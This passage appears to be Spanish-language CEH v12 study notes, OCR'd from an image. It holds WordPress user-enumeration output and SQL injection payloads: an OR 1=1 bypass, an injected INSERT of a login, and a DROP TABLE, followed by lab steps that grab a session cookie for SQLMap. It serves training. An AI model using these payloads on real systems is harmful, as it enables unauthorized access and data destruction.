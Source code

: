 **Interpretación:**
```
[+] WordPress version 5.8 identified
[!] The version is out of date, the latest version is 6.3

[+] WordPress theme in use: twentytwentyone

[+] Enumerating Users (via Passive and Aggressive Methods)
[i] User(s) Identified:
[+] admin
    |  - Id: 1
    |  - Login: admin
```
###SQL Injection
# Apuntes CEH v12: SQL Injection

## 1. SQL Injection en Base de Datos MSSQL

### Payloads Básicos para Detectar Inyección
```sql
'OR 1=1 --
```

### Operaciones en Base de Datos
```sql
-- Agregar una entrada nueva
Admin'; Insert into login values('john','apple123');--

-- Eliminar tabla completa
blah'; DROP TABLE users; --
```

---

## 2. Extracción de Base de Datos MSSQL con SQLMap

### Proceso Manual de Preparación

**Paso 1: Acceso inicial**
- Navegar a: `http://www.moviescope.com/`
- Credenciales de login: **Usuario:** `sam` **Contraseña:** `test`
- Hacer clic en **Login**

**Paso 2: Obtener cookie de sesión**
- Una vez logueado, ir a **View Profile**
- Anotar la URL completa en la barra de direcciones
- Hacer clic derecho → **Inspect (Q)**
- En **Developer Tools** → pestaña **Console**
- Ejecutar comando para obtener cookie:
```javascript
document.cookie
```
- Copiar el valor de la cookie obtenida
